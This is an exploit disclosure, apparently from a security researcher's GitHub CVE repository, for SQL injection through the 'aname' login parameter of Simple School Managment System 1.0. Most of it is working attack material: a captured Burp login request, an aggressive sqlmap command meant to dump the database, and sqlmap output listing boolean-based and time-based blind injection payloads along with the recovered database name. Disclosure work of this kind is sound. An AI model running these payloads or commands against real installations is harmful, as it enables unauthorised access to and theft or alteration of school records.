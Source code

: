 # Simple School Managment System - SQL Injection - 1
+ **Exploit Title:** Simple School Managment System - SQL Injection - 1
+ **Date:** 2024-01-02
+ **Exploit Author:** Tuba Kavgacı
+ **Vendor Homepage:** https://code-projects.org/simple-school-management-in-php-with-source-code/
+ **Software Link:** https://download.code-projects.org/details/d10e92aa-e37f-46fd-9bf8-45878956d7c0
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Simple School Managment System 1.0 allows SQL Injection via the 'aname' parameter at "School/index.php". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/School/index.php"
+ Try logging in by typing random things
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
POST /School/index.php HTTP/1.1
Host: localhost
Content-Length: 30
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/School/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=hidk6npo6f802og8sqcir2veul
Connection: close

aname=selam&apass=selam&login=

```

+ Use sqlmap to exploit. In sqlmap, use 'aname' parameter to dump the database.
```
sqlmap -r r.txt -p aname --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: aname (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: aname=selam' OR NOT 2988=2988-- YxQi&apass=selam&login=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: aname=selam' AND (SELECT 4921 FROM (SELECT(SLEEP(5)))beXo)-- lkco&apass=selam&login=
---
[04:04:30] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[04:04:30] [INFO] fetching current database
[04:04:30] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[04:04:30] [INFO] retrieved: school
current database: 'school'

```
+ current database: `school`

![Ekran görüntüsü 2024-02-01 122322](https://github.com/tubakvgc/CVEs/assets/74067343/f2cb156e-897c-402d-8233-553a9929b52b)

